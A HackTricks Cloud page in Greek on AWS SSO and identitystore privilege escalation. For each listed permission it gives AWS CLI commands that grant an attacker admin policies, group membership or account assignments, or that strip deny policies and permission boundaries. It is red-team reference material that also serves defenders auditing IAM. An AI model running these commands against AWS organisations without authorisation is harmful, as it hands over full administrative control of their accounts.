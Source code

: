 # AWS - SSO & identitystore Privesc

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Identity Center / AWS SSO

Για περισσότερες πληροφορίες σχετικά με το AWS Identity Center / AWS SSO ελέγξτε:

{% content-ref url="../aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Σημειώστε ότι από **προεπιλογή**, μόνο **χρήστες** με δικαιώματα **από** τον **Λογαριασμό Διαχείρισης** θα μπορούν να έχουν πρόσβαση και **να ελέγχουν το IAM Identity Center**.\
Χρήστες από άλλους λογαριασμούς μπορούν να το επιτρέψουν μόνο αν ο λογαριασμός είναι **Δεσμευμένος Διαχειριστής.**\
[Ελέγξτε τα έγγραφα για περισσότερες πληροφορίες.](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~Επαναφορά Κωδικού Πρόσβασης~~

Ένας εύκολος τρόπος για να κλιμακώσετε τα δικαιώματα σε περιπτώσεις όπως αυτή θα ήταν να έχετε μια άδεια που να επιτρέπει την επαναφορά των κωδικών πρόσβασης των χρηστών. Δυστυχώς, είναι μόνο δυνατό να σταλεί ένα email στον χρήστη για να επαναφέρει τον κωδικό του, οπότε θα χρειαστείτε πρόσβαση στο email του χρήστη.

### `identitystore:CreateGroupMembership`

Με αυτή την άδεια είναι δυνατό να τοποθετήσετε έναν χρήστη μέσα σε μια ομάδα ώστε να κληρονομήσει όλα τα δικαιώματα που έχει η ομάδα.

{% code overflow="wrap" %}
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
{% endcode %}

### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Ένας επιτιθέμενος με αυτή την άδεια θα μπορούσε να παραχωρήσει επιπλέον άδειες σε ένα Permission Set που έχει παραχωρηθεί σε έναν χρήστη υπό τον έλεγχό του

{% code overflow="wrap" %}
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Ένας επιτιθέμενος με αυτή την άδεια θα μπορούσε να παραχωρήσει επιπλέον άδειες σε ένα Permission Set που έχει παραχωρηθεί σε έναν χρήστη υπό τον έλεγχό του

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

Ένας επιτιθέμενος με αυτή την άδεια θα μπορούσε να παραχωρήσει επιπλέον άδειες σε ένα Permission Set που έχει παραχωρηθεί σε έναν χρήστη υπό τον έλεγχό του.

{% hint style="warning" %}
Για να εκμεταλλευτείτε αυτές τις άδειες σε αυτή την περίπτωση, πρέπει να γνωρίζετε το **όνομα μιας πολιτικής διαχείρισης πελατών που βρίσκεται σε ΟΛΟΥΣ τους λογαριασμούς** που θα επηρεαστούν.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:CreateAccountAssignment`

Ένας επιτιθέμενος με αυτή την άδεια θα μπορούσε να δώσει ένα Permission Set σε έναν χρήστη υπό τον έλεγχό του σε έναν λογαριασμό.

{% code overflow="wrap" %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
{% endcode %}

### `sso:GetRoleCredentials`

Επιστρέφει τα STS βραχυπρόθεσμα διαπιστευτήρια για ένα συγκεκριμένο όνομα ρόλου που έχει ανατεθεί στον χρήστη.

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

Ωστόσο, χρειάζεστε ένα διακριτικό πρόσβασης που δεν είμαι σίγουρος πώς να αποκτήσετε (TODO).

### `sso:DetachManagedPolicyFromPermissionSet`

Ένας επιτιθέμενος με αυτή την άδεια μπορεί να αφαιρέσει τη σύνδεση μεταξύ μιας διαχειριζόμενης πολιτικής AWS από το καθορισμένο σύνολο αδειών. Είναι δυνατόν να παραχωρηθούν περισσότερα προνόμια μέσω **αφαίρεσης μιας διαχειριζόμενης πολιτικής (πολιτική άρνησης)**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
{% endcode %}

### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

Ένας επιτιθέμενος με αυτή την άδεια μπορεί να αφαιρέσει τη σύνδεση μεταξύ μιας πολιτικής που διαχειρίζεται ο πελάτης από το καθορισμένο σύνολο αδειών. Είναι δυνατή η χορήγηση περισσότερων προνομίων μέσω **αφαίρεσης μιας διαχειριζόμενης πολιτικής (πολιτική άρνησης)**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
{% endcode %}

### `sso:DeleteInlinePolicyFromPermissionSet`

Ένας επιτιθέμενος με αυτή την άδεια μπορεί να αφαιρέσει τις άδειες από μια inline policy από το permission set. Είναι δυνατόν να παραχωρηθούν **περισσότερες άδειες αποσυνδέοντας μια inline policy (deny policy)**.

{% code overflow="wrap" %}
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
{% endcode %}

### `sso:DeletePermissionBoundaryFromPermissionSet`

Ένας επιτιθέμενος με αυτή την άδεια μπορεί να αφαιρέσει το Permission Boundary από το σύνολο αδειών. Είναι δυνατόν να παραχωρηθούν **περισσότερες άδειες αφαιρώντας τους περιορισμούς στο Permission Set** που δίνονται από το Permission Boundary.

{% code overflow="wrap" %}
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
